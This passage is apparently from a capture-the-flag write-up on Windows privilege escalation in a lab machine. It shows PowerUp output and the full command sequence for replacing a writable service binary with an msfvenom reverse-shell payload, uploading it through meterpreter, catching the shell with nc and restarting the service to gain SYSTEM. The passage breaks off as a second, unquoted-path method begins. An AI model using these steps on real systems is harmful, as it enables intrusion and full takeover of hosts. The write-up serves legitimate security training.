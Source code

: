 ```shell
<SNIP>
ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Check                           : Modifiable Service Files
<SNIP>
```

This means we can exploit it in two different ways: 

1. Abusing CanRestart and Weak File Permission to replace ASCService.exe with an .exe containing a reverse shell to our Kali and restarting the service.
2. Abusing CanRestart and Unquoted Service Path.

We will do both methods because I think both are important privilege escalation methods to know and very good practise.

### Abusing CanRestart and Weak File Permission on ASCService.exe
Lets create first an .exe with a reverse shell payload using msfvenom on Kali:

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.113.193 LPORT=9002 -e x86/shikata_ga_nai -f exe-service -o revshell.exe
```

Now move it with meterpreter and replace the legitimate ASCService.exe with it:

```shell
# Move revshell.exe into the target
cd "C:\Program Files (x86)\IObit\Advanced SystemCare"
upload revshell.exe

# Get PowerShell shell
powershell_shell

# Replace legitimate ASCService.exe with our .exe containing the payload
copy revshell.exe ASCService.exe

# Start nc listener on Kali
nc -lvnp 9002

# Restart the service and we will get a response on our nc listener giving us a shell as system
Restart-Service AdvancedSystemCareService9
```

### Abusing CanRestart and Unquoted Service Path
Lets create first an .exe with a reverse shell payload using msfvenom on Kali and name it Advanced.exe:
